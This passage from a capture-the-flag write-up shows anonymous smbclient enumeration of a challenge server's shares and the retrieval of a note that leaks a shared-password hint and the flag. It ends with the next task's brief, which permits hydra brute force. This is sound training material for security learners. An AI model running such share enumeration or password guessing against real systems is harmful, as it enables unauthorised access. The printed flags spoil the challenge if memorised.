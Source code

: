 Get'em, `WorkShares` and `BackUps`.

```plaintext
$ smbclient -p 8445 //betta.utctf.live/BackUps -U%

tree connect failed: NT_STATUS_ACCESS_DENIED
```

The backup share may be out of scope for this challenge.

```plaintext
$ smbclient -p 8445 //betta.utctf.live/WorkShares -U%

Try "help" to get a list of possible commands.
smb: \> cd \shares\IT\Itstuff\
smb: \shares\IT\Itstuff\> ls
  .                                   D        0  Wed Mar  8 20:45:05 2023
  ..                                  D        0  Wed Mar  8 20:45:05 2023
  notetoIT                            N      380  Wed Mar  8 20:45:05 2023

		9974088 blocks of size 1024. 6103304 blocks available
smb: \shares\IT\Itstuff\> get notetoIT 
getting file \shares\IT\Itstuff\notetoIT of size 380 as notetoIT (0,7 KiloBytes/sec) (average 0,7 KiloBytes/sec)
smb: \shares\IT\Itstuff\> exit
```

The other share seems freely accessible and after having poked around for a bit and having enjoyed some cat pictures, an unsuspecting text file contains sensitive data:

```plaintext
I don't understand the fasination with the magic phrase "abracadabra", but too many people are using them as passwords. Crystal Ball, Wade Coldwater, Jay Walker, and Holly Wood all basically have the same password. Can you please reach out to them and get them to change thier passwords or at least get them append a special character?

-- Arty F.

utflag{out-of-c0ntrol-access}
```

In case you're more of a GUI person, the share could also be mounted and browsed through your favorite file manager.

🏁 _utflag{out-of-c0ntrol-access}_{:.spoiler}

## A Network Problem - Part 3

> We've gathered a lot of information at this point, let get access through ssh. (ignore port 22, use 8822)<br>
> (Use of brute force is permitted for this problem, but please set the wait time in hydra so you don't overwhelm the server)<br><br>
> `betta.utctf.live:8822`

---
